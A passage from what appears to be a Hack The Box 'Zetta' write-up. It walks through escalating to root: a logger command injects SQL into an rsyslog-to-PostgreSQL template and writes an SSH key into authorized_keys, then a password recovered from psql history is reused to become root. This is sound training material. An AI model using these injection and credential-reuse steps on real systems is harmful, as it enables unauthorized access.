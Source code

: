 The log files in `/var/log/postgresql` contain error logs related to PostgreSQL:

![](/assets/images/htb-writeup-zetta/root7.png)

Based on the hint in the git commit, I can use `local7.info` to send syslog messages into the database. I see that I can trigger an error by using a single quote:

![](/assets/images/htb-writeup-zetta/root8.png)

Even though the template escapes the single quotes to `\'`, it still presents an SQL injection vector. I can't just close the single quote and do a stacked query because the insert expects two values. So what I'll do is insert the right values using `$$` as replacement for single quotes, then issue a 2nd command using `COPY` to deliver my SSH public key in the `postgres` home directory:

`logger -p local7.info "', \$\$2019-08-31 23:37:22\$\$); copy (select \$\$SSH_KEY_CONTENTS\$\$) to \$\$/var/lib/postgresql/.ssh/authorized_keys\$\$ --; "`

![](/assets/images/htb-writeup-zetta/root9.png)

After looking around for a while I find the `postgres` password in the psql history file: `sup3rs3cur3p4ass`:

```
postgres@zetta:~$ cat /var/lib/postgresql/.psql_history
CREATE DATABASE syslog;
\c syslog
CREATE TABLE syslog_lines ( ID serial not null primary key, CustomerID bigint, ReceivedAt timestamp without time zone NULL, DeviceReportedTime timestamp without time zone NULL, Facility smallint NULL, Priority smallint NULL, FromHost varchar(60) NULL, Message text, NTSeverity int NULL, Importance int NULL, EventSource varchar(60), EventUser varchar(60) NULL, EventCategory int NULL, EventID int NULL, EventBinaryData text NULL, MaxAvailable int NULL, CurrUsage int NULL, MinUsage int NULL, MaxUsage int NULL, InfoUnitID int NULL , SysLogTag varchar(60), EventLogType varchar(60), GenericFileName VarChar(60), SystemID int NULL);
\d syslog_lines
ALTER USER postgres WITH PASSWORD 'sup3rs3cur3p4ass@postgres';
```

There was a hint in the tudu file about a shared password scheme. The password scheme is `<secret>@userid` so I'll try `sup3rs3cur3p4ass@root` and see if I can su to root:

![](/assets/images/htb-writeup-zetta/root.png)